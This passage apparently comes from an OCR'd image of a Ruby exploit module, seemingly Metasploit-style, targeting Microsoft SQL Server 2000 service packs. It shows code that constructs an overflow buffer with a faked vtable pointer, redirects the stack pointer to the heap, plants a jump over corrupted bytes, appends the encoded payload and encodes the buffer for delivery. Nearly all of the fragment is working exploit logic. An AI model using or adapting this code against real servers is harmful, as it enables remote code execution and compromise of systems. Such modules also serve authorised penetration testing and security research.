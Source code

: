           # make sploit buff
          sz = (num + vt_off) + esp_off + (2 + corruptable_bytes) + payload.encoded.length
          #sploit = Rex::Text.pattern_create(sz)
          sploit = rand_text_alphanumeric(sz)

          # remove displacement! (using call [ecx+displacement])
          vtable_off = (num + vt_off)
          sploit[vtable_off,4] = [(vtable - vt_disp)].pack('V')

          # stack -> heap
          hijack_off = vtable_off + ecx_disp
          sploit[hijack_off,4] = [hijack_esp].pack('V')
          # becomes eax on mssql 2ksp4 (prevent crash)
          sploit[(vtable_off-4),4] = [writable].pack('V')

          # becomes eip after esp hijack
          fixesp_off = vtable_off + first_esp
          sploit[fixesp_off,4] = [fix_esp].pack('V')

          # rest of magic stack (disable DEP?)
          stack_off = vtable_off + esp_off
          stack = []
          stack << mytarget['Ret']
          stack = stack.pack('V*')
          # jump over the stuff that gets corrupted
          stack << "\xeb" + [corruptable_bytes].pack('C')
          stack << rand_text_alphanumeric(corruptable_bytes)
          stack << payload.encoded
          sploit[stack_off,stack.length] = stack

          # this has to be put in after the stack area since the ptr for sql2k sp1 is in the corrupted stuff
          sploit[hijack_off,4] = [hijack_esp].pack('V')

          print_status("Redirecting flow to %#x via call to our faked vtable ptr @ %#x" % [mytarget['FixDisp'], vtable])
        end

        # encode chars that get modified
        enc = mssql_encode_string(sploit)
